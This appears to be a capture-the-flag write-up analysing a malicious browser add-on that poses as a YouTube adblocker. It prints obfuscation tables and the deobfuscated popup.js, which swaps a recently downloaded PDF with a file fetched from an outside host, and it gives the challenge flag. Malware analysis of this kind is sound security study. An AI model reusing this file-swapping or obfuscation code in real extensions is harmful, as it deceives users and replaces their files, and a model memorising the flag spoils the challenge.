

# Addon

> Points: 6

> URL: https://drive.google.com/file/d/1YiA3N38praUVqPlTjB9L1amt_a8PezR8/view?usp=sharing </br>
Our Security Operations Center (SOC) has identified a malicious browser add-on distributed via zip file. It purports to be an adblocker capable of bypassing YouTube's new anti-adblock mechanism, but it appears to perform a different function. Your task is to conduct an analysis of the add-on.

Downloaded `addon.zip` contains following files:

```
  Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2024-03-31 22:29:34 ....A      2074696      2075331  addon/icon.png
2024-03-31 22:53:52 ....A          316          192  addon/manifest.json
2024-03-31 22:35:46 ....A          323          213  addon/popup.html
2024-03-31 22:45:02 ....A        19125         1528  addon/popup.js
------------------- ----- ------------ ------------  ------------------------
2024-03-31 22:53:52            2094460      2077264  4 files

```

After looking at `popup.js` we see it's heavily obfuscated:



We tried various online deobfuscation tools but results were no good, so we started with manual deobfuscation. We made following replacements at first step:

```
가 = (!![] + [])[0] + ([] + {})[1] + (([] + [])[([] + {})[5] + ([] + {})[1] + ([][
    []
] + [])[1] + (![] + [])[3] + (!![] + [])[0] + (!![] + [])[1] + ([][
    []
] + [])[0] + ([] + {})[5] + (!![] + [])[0] + ([] + {})[1] + (!![] + [])[1]] + [])[9] + (!![] + [])[0] + (!![] + [])[1] + ([][
    []
] + [])[5] + ([][
    []
] + [])[1] + (([] + [])[([] + {})[5] + ([] + {})[1] + ([][
    []
] + [])[1] + (![] + [])[3] + (!![] + [])[0] + (!![] + [])[1] + ([][
    []
] + [])[0] + ([] + {})[5] + (!![] + [])[0] + ([] + {})[1] + (!![] + [])[1]] + [])[14];
나 = ([] + {})[5] + ([] + {})[1] + ([][
    []
] + [])[1] + (![] + [])[3] + (!![] + [])[0] + (!![] + [])[1] + ([][
    []
] + [])[0] + ([] + {})[5] + (!![] + [])[0] + ([] + {})[1] + (!![] + [])[1];

다 = (![] + [])[0] + (![] + [])[2] + (![] + [])[1] + (!![] + [])[0];

あ = (![] + [])[1];

い = ([] + {})[2];

う = (!![] + [])[1];

$ = (![] + [])[3];

_ = (!![] + [])[3];

가가 = ([] + {})[5];

가나 = ([][
    []
] + [])[0];
가다 = ([][
    []
] + [])[2];

가あ = ([][
    []
] + [])[5];

가い = ([][
    []
] + [])[1];

가う = ([] + {})[1];

가$ = (![] + [])[0];

가_ = (1 / 0 + [])[0];

나가 = (1 / 0 + [])[7];

나나 = (![] + [])[2];

나다 = (!![] + [])[0];
```

Next steps was following substitutions:

```
(25)[toString](30) = p
((0)[constructor][])[11] = m
(17)[toString](20) = h
(32)[toString](33) = w
(20)[toString](21) = k
[][flat][constructor](return unescape("%0a"))() = new line
(26)[toString](30) = q
(([][])[constructor][])[14] = g
(([][])[constructor][])[9] = s
([][flat][])[23] = v
(33)[toString](34) = x
[][flat][constructor](return unescape("%46"))() = F
[][flat][constructor](return unescape("%4c"))()= L
[][flat][constructor](return unescape("%4d"))()= M
[][flat][constructor](return escape(([]+[])["sub"]()))()[8] = e
[][flat][constructor](return escape(([]+[])["sub"]()))()[2] = C
[][flat][constructor](return escape([]["flat"]))() = D
[48]([]{})[8] = O
((![])[constructor][])[9] = B
([]{})[3] = j
```

After which we got following code:

```
document.addeventListener(""DOMContentLoaded"", function() {  
    var queryInfo = {    orderBy: [""-startTime""],    limit: 10  };
    chrome.downloads.search(queryInfo, function(results) {      
        var downloaded = false;
        results.foreach(function(item) {
            if (item.filename.includes(".pdf") && !item.filename.includes("(") && !downloaded) {        
                downloaded = true;
                let s = [    0xc7, 0xd9, 0x0e, 0xed, 0xeb, 0xbf, 0xc9, 0x75,    0xa1, 0xfb, 0xf3, 0xc5, 0xfd, 0x9b, 0x95, 0xa7,    0x2c, 0x89, 0x7b, 0xd5, 0x2c, 0x8b, 0x89, 0x1e,    0x81, 0xa5, 0x38];
                for (let m = 0; m < s.length; ++m) {    
                    let c = s[m];
                    c = (c >> 1) | (c << 7);
                    c = ~c;
                    c += 0x37;
                    c ^= m;
                    c &= 0xFF;
                    s[m] = c;
                }          
                var name = item.filename.split("\\\\").slice(-1)              
                if (string.fromCharCode.apply(null, s.map(byte => byte & 0xFF)).includes("s")){                  
                    chrome.downloads.download({      
                    url: "http://int3.sk/bf5075abd15e3d41e2d3b78b28199eab/temp.pdf",filename: name.join()          
                    });
                }
            }
        });
    });
});
```
> NOTE: On discord channel in the CyberGame Write-ups forum, there was great way how to obfuscate js code:
```
document = {}
document.addEventListener = function (a, b) {
    console.log(a);
    console.log(b.toString());
}
// paste original popup.js
```

We see that there is variable `s` that looks suspicious and probably is obfuscated flag. We asked GhatGPT to help us decode the string which it did in nice explanative way with python code which after execution we got the flag:

```
# Given byte array
s = [
    0xc7, 0xd9, 0x0e, 0xed, 0xeb, 0xbf, 0xc9, 0x75,
    0xa1, 0xfb, 0xf3, 0xc5, 0xfd, 0x9b, 0x95, 0xa7,
    0x2c, 0x89, 0x7b, 0xd5, 0x2c, 0x8b, 0x89, 0x1e,
    0x81, 0xa5, 0x38
]

# Decode the array
for m in range(len(s)):
    c = s[m]
    c = (c >> 1) | (c << 7)  # Rotate right by 1
    c = ~c  # Invert bits
    c += 0x37  # Add 0x37
    c ^= m  # XOR with index m
    c &= 0xFF  # Ensure 8-bit value
    s[m] = c

# Print the decoded array
decoded_string = ''.join(chr(c) for c in s)
print(f'{decoded_string}')
```

```
$ python popup_decode.py
SK-CERT{n07_4dbl0ck_4dd0n}
```

> flag: `SK-CERT{n07_4dbl0ck_4dd0n}`


